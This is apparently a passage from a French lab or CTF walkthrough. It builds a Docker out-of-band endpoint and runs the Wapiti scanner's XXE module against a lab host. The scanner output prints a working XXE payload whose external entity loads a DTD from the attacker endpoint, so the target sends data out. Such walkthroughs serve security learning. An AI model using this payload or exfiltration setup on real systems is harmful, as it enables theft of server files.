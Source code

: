 ```console
$ make wapiti-endpoint 
docker build -f Dockerfile.endpoint -t wapiti-endpoint .
Sending build context to Docker daemon  323.5MB
Step 1/7 : FROM php:7.1-apache
 ---> b9858ffdd4d2
Step 2/7 : COPY ./endpoint/ /var/www/html/
 ---> Using cache
 ---> 8392b8a501b0
Step 3/7 : COPY ./endpoint/.htaccess /var/www/html/.htaccess
 ---> Using cache
 ---> a39985ae0e44
Step 4/7 : RUN sed -i '/LoadModule rewrite_module/s/^#//g' /etc/apache2/apache2.conf &&     sed -i 's#AllowOverride [Nn]one#AllowOverride All#' /etc/apache2/apache2.conf
 ---> Using cache
 ---> 190c42b4ea9a
Step 5/7 : RUN ln -s /etc/apache2/mods-available/rewrite.load /etc/apache2/mods-enabled/rewrite.load
 ---> Using cache
 ---> 888b042dc13a
Step 6/7 : RUN chmod 777 /var/www/html/ssrf_data
 ---> Using cache
 ---> 69a3fdf4ebe8
Step 7/7 : RUN chmod 777 /var/www/html/xxe_data
 ---> Running in c74317836a9c
Removing intermediate container c74317836a9c
 ---> b3d624b63c22
Successfully built b3d624b63c22
Successfully tagged wapiti-endpoint:latest
docker run --rm -dit --name wapiti-running-endpoint -p 80:80 wapiti-endpoint
3f90a2fbbe760af7868a3cccd5ff5dfad61c789c765d14b8da496724621655a4
```

On peut alors lancer `Wapiti` sur l'URL vulnérable en spécifiant en option l'URL du endpoint (`external` est l'URL que la cible va contacter, `internal` est celle qu'on fetche pour les résultats, ici on aurait pu définir 192.168.242.1 pour les deux).

```console
$ wapiti -u http://casino-royale.local/ultra-access-view/main.php --scope page -m xxe --color --external-endpoint http://192.168.242.1/ --internal-endpoint http://127.0.0.1/

     __      __               .__  __  .__________
    /  \    /  \_____  ______ |__|/  |_|__\_____  \
    \   \/\/   /\__  \ \____ \|  \   __\  | _(__  <
     \        /  / __ \|  |_> >  ||  | |  |/       \
      \__/\  /  (____  /   __/|__||__| |__/______  /
           \/        \/|__|                      \/
Wapiti 3.1.7 (wapiti-scanner.github.io)
[*] You are lucky! Full moon tonight.
[*] Saving scan state, please wait...

[*] Launching module xxe
---
Out-Of-Band XXE vulnerability by sending raw XML in request body
The target sent 60 bytes of data to the endpoint at 2023-05-03T12:44:13 with IP 192.168.242.129.
Received data can be seen at http://127.0.0.1/xxe_data/g875ge/1/72617720626f6479/1683125053-0-192.168.242.129.txt.
Evil request:
    POST /ultra-access-view/main.php HTTP/1.1
    Content-Type: text/xml

    <?xml version="1.0"?>
    <!DOCTYPE foo [
    <!ENTITY % remote SYSTEM "http://192.168.242.1/dtd/g875ge/1/72617720626f6479/linux2.dtd">
    %remote; %intern; %trick; ]>
```